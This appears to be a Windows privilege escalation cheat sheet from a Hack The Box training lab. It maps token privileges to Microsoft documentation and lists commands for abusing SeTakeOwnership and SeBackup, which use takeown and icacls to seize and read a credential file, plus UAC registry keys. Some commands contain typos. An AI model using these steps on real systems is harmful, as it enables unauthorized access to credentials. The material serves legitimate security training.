 | `SeRemoteInteractiveLogonRight` | [Allow log on through Remote Desktop Services](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/allow-log-on-through-remote-desktop-services) |

| `SeBackupPrivilege` | [Back up files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/back-up-files-and-directories) |

| `SeSecurityPrivilege` | [Manage auditing and security log](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/manage-auditing-and-security-log) |

| `SeTakeOwnershipPrivilege` | [Take ownership of files or other objects](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects) |

| `SeDebugPrivilege` | [Debug programs](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs) |

| `SeImpersonatePrivilege` | [Impersonate a client after authentication](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication) |

| `SeLoadDriverPrivilege` | [Load and unload device drivers](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/load-and-unload-device-drivers) |

| `SeRestorePrivilege` | [Restore files and directories](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/restore-files-and-directories) |

| `[Enable SeTakeOwnership Priv](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1)` | We can enable it using this script which is detailed in this blog post, as well as this one which builds on the initial concept. |

| ``Import-Mobule .\Enable-Privilege.ps1`` | Import module with powershell |

| ``.\EnablingAllTokenPrivs.ps1`` | Run script |

| ``whoami /priv`` | Check privilege |

| ``Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' \| Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}`` | Check details of specific file |

| ``cmd /c dir /q 'C:\Department Shares\Private\IT'`` | Get ownership of Directory |

| ``takeown /f 'C:\Department Shares\Private\IT\cred.txt'`` | Take ownership, SeTakeOwnershipPrivilege necessary |

| ``icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F`` | Modify ACL to allow file to be viewed by user |

| ``Import-Module .\SeBackupPrivilegeUtils.dll Import-Module .\SeBackupPrivilegeCmdLets.dll`` | Import both modules |

| ``whoami /priv \| findstr Backup`` | Priv check |

| ``Get-SeBackupPrivilege`` | Checks for right once module imported |

| `**Group Policy Setting**` | **Registry Key** |

| `[User Account Control: Admin Approval Mode for the built-in Administrator account](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-admin-approval-mode-for-the-built-in-administrator-account)` | FilterAdministratorToken |

| `[User Account Control: Allow UIAccess applications to prompt for elevation without using the secure desktop](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-allow-uiaccess-applications-to-prompt-for-elevation-without-using-the-secure-desktop)` | EnableUIADesktopToggle |

| `[User Account Control: Behavior of the elevation prompt for administrators in Admin Approval Mode](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-behavior-of-the-elevation-prompt-for-administrators-in-admin-approval-mode)` | ConsentPromptBehaviorAdmin |
